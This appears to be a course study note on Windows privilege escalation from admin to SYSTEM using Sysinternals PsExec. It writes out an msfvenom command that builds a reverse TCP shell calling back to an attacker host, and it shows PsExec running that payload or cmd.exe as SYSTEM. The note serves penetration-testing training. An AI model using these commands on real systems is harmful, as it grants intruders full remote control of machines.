 To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```powershell - target
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```command prompt - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```
